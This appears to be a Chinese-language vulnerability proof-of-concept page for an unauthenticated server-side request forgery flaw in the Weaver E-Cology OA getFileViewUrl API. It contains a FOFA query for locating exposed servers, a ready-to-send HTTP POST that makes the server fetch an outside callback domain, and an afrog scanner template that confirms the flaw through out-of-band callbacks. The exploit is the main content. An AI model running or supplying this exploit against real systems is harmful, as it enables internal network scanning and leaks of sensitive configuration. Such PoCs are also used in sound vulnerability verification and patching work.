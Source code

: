 # 泛微E-Cology接口getFileViewUrl存在SSRF漏洞

泛微E-Cology getFileViewUrl 接口处存在服务器请求伪造漏洞，未经身份验证的远程攻击者利用此漏洞扫描服务器所在的内网或本地端口，获取服务的banner信息，窥探网络结构，甚至对内网或本地运行的应用程序发起攻击，获取服务器内部敏感配置，造成信息泄露。

## fofa

```yaml
app="泛微-OA（e-cology）"
```

## poc

```yaml
POST /api/doc/mobile/fileview/getFileViewUrl HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Upgrade-Insecure-Requests: 1
 
{
    "file_id": "1000",
    "file_name": "c",
    "download_url":"http://euixlkewfg.dgrh3.cn"
}
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407092255733.png)

## afrog poc

```yaml
id: 泛微E-Cology接口getFileViewUrl存在SSRF漏洞

info:
  name: 泛微E-Cology接口getFileViewUrl存在SSRF漏洞
  author: wy876
  severity: high
  verified: true
  description: |-
    泛微E-Cology getFileViewUrl 接口处存在服务器请求伪造漏洞，未经身份验证的远程攻击者利用此漏洞扫描服务器所在的内网或本地端口，获取服务的banner信息，窥探网络结构，甚至对内网或本地运行的应用程序发起攻击，获取服务器内部敏感配置，造成信息泄露。
    Fofa: app="泛微-OA（e-cology）"

  reference:
    - https://blog.csdn.net/qq_41904294/article/details/140301289
  tags: 泛微,ssrf
  created: 2024/07/10

set:
  oob: oob()
  oobHTTP: oob.HTTP
  oobDNS: oob.DNS

rules:
  r0:
    request:
      method: POST
      path: /api/doc/mobile/fileview/getFileViewUrl
      headers:
        Content-Type: application/json
      body: |
        {"file_id": "1000","file_name": "c","download_url":"{{oobHTTP}}"}
    expression: response.status == 200 && oobCheck(oob, oob.ProtocolHTTP, 3)

expression: r0()
```

